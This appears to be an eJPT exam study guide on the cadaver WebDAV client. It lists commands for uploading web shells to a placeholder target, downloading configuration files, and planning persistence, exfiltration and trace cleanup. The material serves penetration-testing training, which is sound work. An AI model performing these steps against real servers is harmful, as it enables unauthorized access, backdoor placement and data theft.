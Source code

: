 ### Essential Cadaver Skills for eJPT Certification

#### 1. Manual WebDAV Exploitation Workflow
```bash
# Complete exploitation sequence for eJPT exam
cadaver http://target/webdav
# Enter credentials when prompted
ls                    # Enumerate directory contents
put backdoor.asp      # Upload web shell
ls                    # Verify successful upload
get web.config        # Download configuration files
quit                  # Exit cleanly
```

#### 2. File Upload and Management
- **Backdoor Deployment:** Precise control over web shell placement
- **Upload Verification:** Confirm successful uploads with ls command
- **File Size Validation:** Ensure complete file transfer
- **Directory Navigation:** Explore and map WebDAV directory structure
- **File Management:** Organize uploads and manage server files

#### 3. Information Gathering and Enumeration
- **Directory Listing:** Map available files and directories
- **Configuration Files:** Download sensitive configuration data
- **File Permissions:** Test read/write access to various locations
- **Server Fingerprinting:** Identify server type through directory structure

#### 4. Post-Exploitation Activities
- **Persistent Access:** Upload multiple backdoors for redundancy
- **Data Exfiltration:** Download sensitive files and documents
- **Directory Manipulation:** Create organized folder structure
- **Evidence Cleanup:** Remove test files and traces when required

### Common eJPT Exam Scenarios
- **WebDAV Exploitation:** Manual file upload after automated discovery with davtest
- **Web Shell Deployment:** Precise backdoor placement and accessibility verification
- **File System Exploration:** Navigate and explore server directory structure
- **Data Exfiltration:** Download configuration files and sensitive documents
- **Persistence Establishment:** Multiple access point creation

### Critical eJPT Commands to Memorize
```bash
# Essential cadaver session commands for exam
cadaver http://target/webdav     # Connect to server
ls                               # List directory contents
put webshell.asp                 # Upload backdoor
get web.config                   # Download config files
mkdir backup                     # Create directories
cd directory                     # Navigate directories
quit                             # Exit session
```
